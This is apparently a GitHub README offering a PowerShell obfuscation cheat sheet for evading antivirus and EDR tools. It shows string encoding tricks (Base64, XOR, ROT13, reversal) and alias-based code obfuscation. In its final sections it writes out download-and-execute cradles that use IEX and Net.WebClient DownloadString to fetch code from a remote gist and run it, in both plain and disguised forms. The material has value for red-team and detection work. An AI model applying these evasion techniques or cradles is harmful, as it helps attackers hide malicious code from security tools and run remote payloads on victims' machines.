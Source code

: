 <h1 align="center">
Powershell Obfuscation Cheat sheet for AV/EDRs Evasion
</h1>

**Table of Contents**
- [String Obfuscation](#String-Obfuscation)
  * [Alternating caps](#Alternating-caps)
  * [Replace](#Replace)
  * [Reverse-String](#Reverse-String)
  * [RightToLeft](#RightToLeft)
  * [Base64](#Base64)
  * [XOR](#XOR)  
  * [ROT13](#ROT13)
- [Code Obfuscation](#Code-Obfuscation)
  * [Using SessionStateAliasEntry](#SessionStateAliasEntry)


### String-Obfuscation

#### Alternating-caps
```powershell
# Original 
SV("ENVIRONMENTVAR")([Type]("environment")); 

# Example
SV("ENVIRONMENTVAR")([TyPe]("ENVIronMENt")); 
```

#### Replace
```powershell
# Original 
write-host teststring

# Example
write-host (-Join ("te~~st~~str~~ing" -Split "~~"))
```

#### Reverse-String
```powershell
# Original 
write-host teststring

# Example
write-host (-Join "gnirtstset"[10..0]) # 10 is string length
```

#### RightToLeft
```powershell
# Original 
write-host teststring

# Example
write-host (-Join[RegEx]::Matches("gnirtstset",'.','RightToLeft'))
```

#### Base64
```powershell
# Original 
write-host teststring

# Example
write-host [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("dABlAHMAdABzAHQAcgBpAG4AZwA="))
```

#### XOR
```powershell
# Original 
write-host teststring

# Example
$key = "supersecret";
$ENC = @(7,16,3,17,1,7,23,10,28,2);
$DEC = @();
for ($i = 0; $i -lt $ENC.Count; $i++) {
    $DEC += $ENC[$i] -bxor $key[$i % $key.Length];
} 
write-host ([system.Text.Encoding]::UTF8.getString($DEC));  
```


#### ROT13
```powershell
# Original 
write-host teststring

# Example
$output = "";
"grfgfgevat".ToCharArray() | ForEach-Object {
    if((([int] $_ -ge 97) -and ([int] $_ -le 109)) -or (([int] $_ -ge 65) -and ([int] $_ -le 77)))
    {
        $output += [char] ([int] $_ + 13);
    }
    elseif((([int] $_ -ge 110) -and ([int] $_ -le 122)) -or (([int] $_ -ge 78) -and ([int] $_ -le 90)))
    {
        $output += [char] ([int] $_ - 13);
    }
    else
    {
        $output += $_
    }        
}
write-host $output
```

### Code-Obfuscation

#### SessionStateAliasEntry
you can use Built-In Aliases in powershell you can access the entire list from here 
[src/System.Management.Automation/engine/InitialSessionState.cs#L4586](https://github.com/PowerShell/PowerShell/blob/a99ea2acd2ac4b979974719d514d6c421fdcbdee/src/System.Management.Automation/engine/InitialSessionState.cs#L4586)
```powershell
# the following code will pop up calc
$site='https://gist.githubusercontent.com/WazeHell/c1937b0ca35b0ad4f81523c5efef6750/raw/4c03e65360e338ba4b741a1dd2dea4dc3f370e65/justtest.html';

# Original 
Set-Alias -Name MoreObject -Value new-object
Set-Alias -Name thissmtelse -Value iex
thissmtelse((MoreObject(('Net.Webclient'))).(('Downloadstring')).InVokE((($site))))

# Example
sal MoreObject new-object;
sal thissmtelse iex;
thissmtelse((MoreObject(('Net.Webclient'))).(('Downloadstring')).InVokE((($site))))
```

#### Set-Item AND Get-Item
```powershell
# the following code will pop up calc
$site='https://gist.githubusercontent.com/WazeHell/c1937b0ca35b0ad4f81523c5efef6750/raw/4c03e65360e338ba4b741a1dd2dea4dc3f370e65/justtest.html';

# Original 
IEX((new-object net.webclient).downloadstring($site))

# Example
si('variable:eegw')([string]('new-object'));
si('variable:eeg')([string]('iex'));
sal MoreObject (gv('eegw')).Value;
sal thissmtelse (gv('eeg')).Value;
thissmtelse((MoreObject(('Net.Webclient'))).(('Downloadstring'))."InVokE"((($site))))
```


